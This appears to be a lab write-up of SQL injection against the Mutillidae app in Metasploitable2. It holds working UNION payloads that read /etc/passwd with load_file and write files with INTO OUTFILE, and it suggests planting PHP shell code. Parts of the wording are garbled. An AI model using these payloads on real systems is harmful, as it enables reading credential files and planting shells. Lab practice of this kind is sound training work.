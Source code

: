 ## OUTPUT:
![{1ED2C8BB-A5CD-43B0-BB96-87E701ECB7C3}](https://github.com/user-attachments/assets/21abf81d-e047-4793-a284-08fa17ecef5e)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{08DE6856-DD25-4D89-A338-91A57771534B}](https://github.com/user-attachments/assets/44300184-8a22-4802-88f0-f4e07d31d8bf)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
